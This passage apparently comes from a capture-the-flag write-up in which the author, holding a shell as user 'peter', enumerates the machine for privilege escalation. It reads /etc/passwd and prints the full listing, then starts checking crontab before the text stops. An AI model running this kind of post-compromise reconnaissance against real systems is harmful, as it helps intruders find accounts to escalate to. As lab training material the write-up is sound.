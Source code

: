 -rw-------  1 peter peter    0 Jun 18 19:13 .Xauthority
```
Some files there, we still need to move our privs up from Peter to root though.

```
$ cat /etc/passwd
cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:103:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:104:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:105:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:106:systemd Bus Proxy,,,:/run/systemd:/bin/false
messagebus:x:104:109::/var/run/dbus:/bin/false
avahi:x:105:110:Avahi mDNS daemon,,,:/var/run/avahi-daemon:/bin/false
Debian-exim:x:106:112::/var/spool/exim4:/bin/false
statd:x:107:65534::/var/lib/nfs:/bin/false
colord:x:108:116:colord colour management daemon,,,:/var/lib/colord:/bin/false
geoclue:x:110:117::/var/lib/geoclue:/bin/false
rtkit:x:113:121:RealtimeKit,,,:/proc:/bin/false
saned:x:114:122::/var/lib/saned:/bin/false
usbmux:x:115:46:usbmux daemon,,,:/var/lib/usbmux:/bin/false
Debian-gdm:x:116:123:Gnome Display Manager:/var/lib/gdm3:/bin/false
peter:x:1000:1000:peter,,,:/home/peter:/bin/bash
sshd:x:109:65534::/var/run/sshd:/usr/sbin/nologin
mysql:x:112:125:MySQL Server,,,:/nonexistent:/bin/false
blumbergh:x:1001:1001::/home/blumbergh:/bin/false
milton:x:1002:1002::/home/milton:/bin/bash
telnetd:x:117:126::/nonexistent:/bin/false
dnsmasq:x:118:65534:dnsmasq,,,:/var/lib/misc:/bin/false
```
So there's a couple of users ```blumbergh```` and ```milton```

I decide to check what crontab has to say too:

```
$ crontab -l
crontab -l
# Edit this file to introduce tasks to be run by cron.
# 
# Each task to run has to be defined through a single line
# indicating with different fields when the task will be run